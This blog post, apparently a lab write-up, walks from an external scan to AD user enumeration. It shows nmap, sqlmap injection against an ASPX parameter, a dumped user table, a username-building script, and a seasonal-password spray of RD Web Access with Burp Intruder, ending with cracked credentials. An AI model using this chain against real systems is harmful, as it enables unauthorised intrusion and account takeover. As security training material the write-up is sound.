 ```yaml
---
layout: post
title: Active Dirctory Adventures part 1
---
```


Windows Active Directory is a database of network reasorce objects. That proliferates in modern enterprise network architectures.
This post is about going from external client to Domain Controller using some fun tools and tricks.

There is a firewall in place so we scan some likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV)


`nmap -T4 -sV -Pn -p80,443 10.7.12.0/24`

![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)

We bust the http ports for available directories and find on on 10.7.12.12/mvc, a sales site and uses a backend database to manage its merchandise information.

![](https://braaaax.github.io/braaaax.github.io/images/lky-site.jpg)


The url shows an aspx script that makes a call to the databse to retrieve product information.
We capture the request with Burp Suite and probe this injection point with sqlmap.

`
GET /mvc/Product.aspx?ProductSubCategoryId=18 HTTP/1.1
Host: 10.7.12.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.7.12.12/mvc/
Cookie: __AntiXsrfToken=e1e188c81f744fad9a0d59ef8c17af71
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1  
`

We can use the copy to file function and write the request to procuct.req and then sick sqlmap on it.


`sqlmap -r product.req --level=5 --risk=3`

This proves successful and we are able to dump the entire database. 
Of interest is a table giving Active Directory users fullnames and their respective groups

`
Database: ADConnect
Table: ADUsers
[40 entries]
+------------+-------------+-----------------+
| LastName   | FirstName   | Department      |
+------------+-------------+-----------------+
| Vazquez    | Annie       | Finance         |
| Falcon     | Paul        | Finance         |
| Anthony    | Fae         | Finance         |
| Dillard    | Walter      | Finance         |
| Bradford   | Louis       | Finance         |
| Gage       | Sonya       | Finance         |
| Sanchez    | Alba        | Finance         |
| Branch     | Daniel      | Finance         |
| Cruz       | Christopher | Finance         |
| Johnson    | Nicole      | Finance         |
| Holliday   | Mary        | Human Resources |
| Shoemaker  | Michael     | Human Resources |
| Slater     | Arlene      | Human Resources |
| Prentiss   | Kelsey      | Human Resources |
| Davis      | Ginger      | Human Resources |
| McDaniel   | Johnny      | Human Resources |
| Jones      | James       | Human Resources |
| Garcia     | Thomas      | Human Resources |
| Harrison   | Melissa     | Human Resources |
| Hight      | Nicholas    | Human Resources |
| Baird      | William     | Marketing       |
| Ochoa      | Michelle    | Marketing       |
| Hopkins    | Joshua      | Marketing       |
| Blea       | Howard      | Marketing       |
| Pennington | Clara       | Marketing       |
| Glen       | David       | Marketing       |
| Hartsfield | Kim         | Marketing       |
| Ramirez    | Rita        | Marketing       |
| Hafner     | Opal        | Marketing       |
| Matthews   | Louie       | Marketing       |
| Okeefe     | Lee         | Sales           |
| Burrows    | Roger       | Sales           |
| Steele     | Charles     | Sales           |
| Wallace    | Juan        | Sales           |
| Lewis      | Donita      | Sales           |
| Santiago   | Juanita     | Sales           |
| Shepherd   | Wesley      | Sales           |
| Brown      | Steven      | Sales           |
| Wilson     | Johnny      | Sales           |
| May        | Juan        | Sales           |
+------------+-------------+-----------------+
`

Dirbusting the other open http/s ports we find /rdweb access ie remote dsktop web access. 
If we can derive the correct username given the full names of the AD users we can test weak passwords with the rdweb login.

For this one can use a tool like burp intruder:
enter "LAB/USERNAME" and "PASSWORD" into the login field and capture with burp/zap proxy:

`
POST /RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx HTTP/1.1
Host: 10.7.12.11
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.7.12.11/RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx
Cookie: TSWAFeatureCheckCookie=true; TSWAAuthClientSideCookie=Name=DOMAIN%5CUSERNAME&MachineType=private&WorkSpaceID=RDS02.lab.local
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 293

WorkSpaceID=RDS02.lab.local&RDPCertificates=&PublicModeTimeout=20&PrivateModeTimeout=240&WorkspaceFriendlyName=Work%2520Resources&EventLogUploadAddress=&RedirectorName=RDS02.lab.local&ClaimsHint=&ClaimsToken=&isUtf8=1&flags=4&DomainUserName=LAB%5Cavasquez&UserPass=PASSWORD&MachineType=private
`


`python
import csv
with open("/root/.sqlmap/output/10.7.12.12/dump/ADConnect/ADUsers.csv") as csvfile:
    reader = csv.DictReader(csvfile)
    for row in reader:
        print('{}{}'.format(row['FirstName'][0].lower(), row['LastName'].lower()))
`

Passords List:
Summer2017!
Winter2017!
Fall2017!
Spring2017!
Summer2018!
Winter2018!
Fall2018!
Spring2018!

Intruder: 
*  you can use the "cluster bomb" attack
*  remove the placeholders save for the the two USERNAME fields and the the PASSWORD field
*  we are relating payloads to a given placeholder here so use the userlist you created for placeholder1 and copy that lost for paload 2 and use a password list for payload 3
*  make sure to Always Follow Redirection in the options tab


User Credentials Found:
avazquez:Spring2017!
mholliday:Summer2017!
wbaird:Autum2017!



[Jekyll Now repository](https://github.com/barryclark/jekyll-now) on GitHub.
